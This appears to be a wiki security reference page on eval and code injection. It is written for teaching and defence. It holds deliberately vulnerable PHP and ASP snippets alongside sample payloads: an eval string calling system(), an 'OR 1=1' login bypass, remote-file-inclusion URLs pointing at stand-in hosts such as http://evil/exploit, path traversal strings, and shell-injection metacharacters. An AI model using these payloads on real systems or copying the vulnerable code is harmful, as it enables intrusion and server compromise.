 ```yaml
---

layout: col-sidebar
title: Direct Dynamic Code Evaluation - Eval Injection
author: 
contributors:
permalink: /attacks/Direct_Dynamic_Code_Evaluation_Eval Injection
tag: attack, direct dynamic code evaluation, eval injection
auto-migrated: 1

---
```



Description
This attack consists of a script that does not properly validate user inputs in the page parameter. A remote user can supply a specially crafted URL to pass arbitrary code to an eval() statement, which results in code execution.

Note 1: This attack will execute the code with the same permission like the target web service, including operation system commands.

Note 2: Eval injection is prevalent in handler/dispatch procedures that might want to invoke a large number of functions, or set a large number of variables.

Risk Factors
TBD

Examples
Example 1
In this example an attacker can control all or part of an input string that is fed into an eval() function call

  $myvar = "varname"; 
  $x = $_GET['arg']; 
  eval("\$myvar = \$x;"); 
The argument of "eval" will be processed as PHP, so additional commands can be appended. For example, if "arg" is set to "10 ; system(\"/bin/echo uh-oh\");", additional code is run which executes a program on the server, in this case "/bin/echo".

Example 2
The following is an example of SQL Injection. Consider a web page which has two fields to allow users to enter a Username and a Password. The code behind the page will generate a SQL query to check the Password against the list of Usernames:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password'
If this query returns exactly one row, then access is granted. However, if a malicious user enters a valid Username and injects some valid code ("' OR 1=1") in the Password field, then the resulting query will look like this:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password' OR '1'='1'
In the example above, "Password" is assumed to be blank or some innocuous string. "1=1" will always be true and many rows will be returned, thereby allowing access. The final inverted comma will be ignored by the SQL parser. The technique may be refined to allow multiple statements to run, or even to load up and run external programs.

Example 3
This is an example of a file that was injected. Consider this PHP program (which includes a file specified by request):

<?php
   $color = 'blue';
   if ( isset( $_GET['COLOR'] ) )
      $color = $_GET['COLOR'];
   require( $color . '.php' );
?>
<form>
   <select name="COLOR">
      <option value="red">red</option>
      <option value="blue">blue</option>
   </select>
   <input type="submit">
</form>

The developer thought this would ensure that only blue.php and red.php could be loaded. But as anyone can easily insert arbitrary values in COLOR, it is possible to inject code from files:

/vulnerable.php?COLOR=http://evil/exploit - injects a remotely hosted file containing an exploit.
/vulnerable.php?COLOR=C:\ftp\upload\exploit - injects an uploaded file containing an exploit.
/vulnerable.php?COLOR=..\..\..\..\ftp\upload\exploit - injects an uploaded file containing an exploit, using Path Traversal.
/vulnerable.php?COLOR=C:\notes.txt%00 - example using Null character, Meta character to remove the .php suffix, allowing access to other files than .php. (PHP setting "magic_quotes_gpc = On", which is default, would stop this attack)
Example 4
A simple URL which demonstrates a way to do this attack:

 http://some-page/any-dir/index.php?page=<?include($s);?>&s=http://malicious-page/cmd.txt?  
Example 5
Shell Injection applies to most systems which allow software to programmatically execute a Command line. Typical sources of Shell Injection are calls system(), StartProcess(), java.lang.Runtime.exec() and similar APIs.

Consider the following short PHP program, which runs an external program called funnytext to replace a word the user sent with some other word.

<HTML>
<?php
passthru ( " /home/user/phpguru/funnytext " 
           . $_GET['USER_INPUT'] );
?>
This program can be injected in multiple ways:

`command` will execute command.
$(command) will execute command.
; command will execute command, and output result of command.
| command will execute command, and output result of command.
&& command will execute command, and output result of command.
|| command will execute command, and output result of command.
> /home/user/phpguru/.bashrc will overwrite file .bashrc.
< /home/user/phpguru/.bashrc will send file .bashrc as input to funnytext.
PHP offers escapeshellarg() and escapeshellcmd() to perform encoding before calling methods. However, it is not recommended to trust these methods to be secure - also validate/sanitize input.

Example 6
The following code is vulnerable to eval() injection, because it don’t sanitize the user’s input (in this case: “username”). The program just saves this input in a txt file, and then the server will execute this file without any validation. In this case the user is able to insert a command instead of a username.

Example:

<%
	If not isEmpty(Request( "username" ) ) Then
		Const ForReading = 1, ForWriting = 2, ForAppending = 8
		Dim fso, f
		Set fso = CreateObject("Scripting.FileSystemObject")
		Set f = fso.OpenTextFile(Server.MapPath( "userlog.txt" ), ForAppending, True)
		f.Write Request("username") & vbCrLf
		f.close
		Set f = nothing
		Set fso = Nothing
		%>
		<h1>List of logged users:</h1>
		<pre>
		<%
			Server.Execute( "userlog.txt" )
		%>
		</pre>
		<%
	Else
		%>
		<form>
			<input name="username" /><input type="submit" name="submit" />
		</form>
		<%
	End If
%>
Related Threat Agents
Internal software developer
Related Attacks
Direct Static Code Injection
Code Injection
Injection Attacks
Related Vulnerabilities
Category:Input Validation Vulnerability
Related Controls
Category:Input Validation
References
http://secunia.com/cve_reference/CVE-2006-2005/?show_result=1
http://en.wikipedia.org/wiki/Code_injection